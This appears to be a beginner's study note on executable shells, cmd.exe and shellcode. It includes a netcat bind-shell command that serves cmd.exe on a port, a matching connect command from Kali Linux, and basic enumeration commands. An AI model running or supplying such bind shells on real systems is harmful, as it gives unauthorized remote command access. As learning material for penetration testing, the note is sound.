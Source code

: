 #### Executable Shell

> EXE for windows
>
> AND
>
> ELF for LinuxCMD

> cmd.exe is a command-line interpreter for Windows that allows users to execute commands and scripts on the system. It provides access to a wide range of system utilities and features,
>
> An Interface that executes other programs or allow as to interact with it along with some additional scripting feature

> shell >> cmd.exe || bin/bash
>
> Shell blinded on a particular port that serves shell as a services -- anyone can commet port ==> Access as a service

> Windows SSH FROM KALI LINUX

{% code overflow="wrap" %}
```
nc.exe -lvp 123 -e cmd.exe (-e means exe the shell execute and print the output 
```
{% endcode %}

> KALI LINUX

```
nc #TARGET #CUSTOMPORT
```

* Shellcode is a small piece of code that is injected into a vulnerable program to perform a specific task. It is usually written in assembly language and is designed to exploit a vulnerability in a program's memory or execution flow.

_SHELLCODE ==> shell + code_

&#x20;                                     _Code (code that has functionality of shell)_



Shell >>  cmd || /bin/bash



```
#dir whoami.exe
#dir sysinfo.exe
#dir ipconfig.exe
```
